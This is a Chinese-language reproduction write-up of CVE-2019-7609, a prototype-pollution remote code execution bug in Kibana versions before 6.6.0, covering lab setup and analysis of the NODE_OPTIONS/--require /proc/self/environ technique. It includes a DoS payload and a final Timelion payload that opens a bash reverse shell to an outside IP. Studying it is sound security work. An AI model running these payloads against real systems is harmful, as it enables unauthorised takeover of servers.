




# （CVE-2019-7609）kibana < 6.6.0 未授权远程代码命令执行

> 原文：[http://book.iwonder.run/0day/kibana/1.html](http://book.iwonder.run/0day/kibana/1.html)

## 一、漏洞简介

Kibana 是一款开源的数据分析和可视化平台，它是 Elastic Stack 成员之一，设计用于和 Elasticsearch 协作。

## 二、漏洞影响

kibana < 6.6.0

## 三、复现过程

#### 环境搭建

```
docker pull docker.elastic.co/kibana/kibana:6.5.4 
docker network create elastic 
docker run --network=elastic --name=elasticsearch docker.elastic.co/elasticsearch/elasticsearch:6.5.4
docker run -d --name kibana --net elastic -p 5601:5601 docker.elastic.co/kibana/kibana:6.5.4 
docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' kibana 
```

这样启动的 kibana 没法调试，可以自己改改镜像，在 node 启动命令里加个 inspect 参数：

```
docker ps -a --no-trunc  # 找到启动脚本

在 node 启动命令后加上--inspect=0.0.0.0:9229

docker commit kibana kibana-debug  # 保存修改后的镜像
docker rm -f kibana
docker run --name kibana --net elastic -p 5601:5601 -p 9229:9229 kibana-debug  # 启动修改后的 kibana 容器 
```

kibana 控制台：[http://127.0.0.1:5601/](http://127.0.0.1:5601/) inspect 调试器：chrome://inspect/

#### 漏洞分析

原型链污染点：props()函数可以给对象设置属性



有了污染点，就可以思考怎么利用了。

最简单的利用，设置一个 cookie 就可以导致拒绝服务：

```
.es(*).props(label.__proto__.cookie="aaa") 
```


要复原的话可以在 inspect 调试器里删掉原型对象的 cookie 属性：


DOS 很好实现，怎么搞成 RCE 呢？根据经验，容易想到一些常见情形，如：

```
if(obj.jsCode) eval(obj.jsCode) 这种白给的
express ejs 模版引擎中的动态函数调用 
```

作者并没有找到明显的代码执行点，但是在瞎点到 canvas 的时候，他发现控制台暴了很多错误（这是 inpector 的输出，也就是说如果启 docker 的时候加了-d 的话，可能就错过这个 RCE 了...）。


作者据此得出结论：kibana 在创建新进程 创建进程可就是个敏感的行为了，能不能污染命令/参数呢？ 来动态看下进程创建的过程，



首先调用 normalizeSpawnArguments.apply()处理参数，


跟进，


这里实际是在处理 child_process.spawn(command[, args][, options])的第三个参数 options。


这里面的有些参数是 undefined 的，只有声明了才会处理，也即是我们可以污染的。 作者利用的就是这个 env 参数，它以键值对的形式向子进程传递环境变量（我尝试了一些其它参数，没发现可利用的）。

能控制进程的环境变量了，有什么用呢？我们不知道子进程会对环境变量做些什么操作啊，这是容易被忽视的一个重点。 回想下控制台报的错："Starting inspector on 0.0.0.0:9229 failed: address already in use"。 这句话透露出的是：此时正在创建一个 node 命令进程，并且使用了--inpect:0.0.0.0:9229 参数。 这下目标就清晰了，我们能控制的 node 的环境变量。

在 node 中，有一个 NODE_OPTIONS 变量，


通过这个变量，可以覆盖 node 进程的参数。 也就是说，现在我们能控制 node 进程的参数了。这就很有用了，比如--eval 参数是可以直接执行代码的。



但是，NODE_OPTIONS 似乎考虑到了这种潜在的安全问题，它只能使用部分参数，向--eval 这种是用不了的。

不过作者找到了另一个参数--require，


这个有点像 php 里的 auto_prepend_file，预加载一个文件。



现在我们可以看成有一个文件包含的洞了，怎么 RCE 呢？ 通常，我们都会上传一个文件再包含，或者去包含 web 服务器日志/SSH 日志。 作者这里利用的方法也十分巧妙，Linux 下一切皆文件，我们已经能控制子进程的环境变量，也就是能控制/proc/self/environ 这个文件，直接包含这个文件不就好了。


最后 payload 如下：

> 将 POC 里的反链 IP 地址换成自己的，然后在目标机器上的 `Timelion` 选项下将以下 `POC` 粘贴进去，然后点击 `Run` 运行：

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.70.53.113/6666 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ') 
```

然后自己机器开启监听，再点击 `Canvas` 即可出发漏洞

